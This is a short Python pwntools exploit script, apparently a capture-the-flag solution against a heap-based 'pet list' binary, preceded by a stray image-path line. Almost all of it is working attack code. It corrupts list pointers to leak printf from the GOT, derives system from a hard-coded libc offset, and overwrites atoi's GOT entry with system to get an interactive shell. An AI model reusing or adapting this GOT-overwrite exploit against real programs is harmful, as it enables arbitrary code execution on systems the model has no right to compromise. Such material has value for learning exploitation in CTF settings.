 ```python
atoi_got = 0x602068
printf_got = 0x602038
pet_list = 0x6020A0


# round 1. leak printf address
create("0000","0000","0")
edit(0, "aaaa","aaaa","aaaa","n")

to_write = pet_list
payload = p64(to_write) * 2 + "a" 
create("1111", payload, "1")
create("2222", "2222", "2")
create("3333", "3333", "3")
edit(3, p64(pet_list),p64(printf_got-16),"4", "y")
print_one(0)
printf = int(pold)
log.info("printf = 0x%x" % printf)
create("4444","4444","4")

# round 2. leak atoi address
"""
create("5555","5555","5")
edit(4, "aaaa","aaaa","aaaa","n")

to_write = pet_list
payload = p64(to_write) * 2 + "a"
create("6666", payload, "1")
create("7777", "2222", "2")
create("8888", "3333", "3")
edit(1, p64(pet_list),p64(atoi_got-16),"4", "y")
print_one(0)
atoi = int(pold)
log.info("atoi = 0x%x" % atoi)
"""

# round 3. using libc database, we can get offset of system.
# overwrite the atoi with system
system = printf	- 0x10470	# it is my local offset.
log.info("system : 0x%x" % system)
create("5555","5555","5")
edit(4, "aaaa","aaaa","aaaa","n")

to_write = atoi_got
payload = p64(to_write) * 2 + "a"
create("6666", payload, "1")
create("7777", "2222", "2")
create("8888", "3333", "3")
edit(8, p64(pet_list),p64(system),"4", "y")

p.interactive()
```
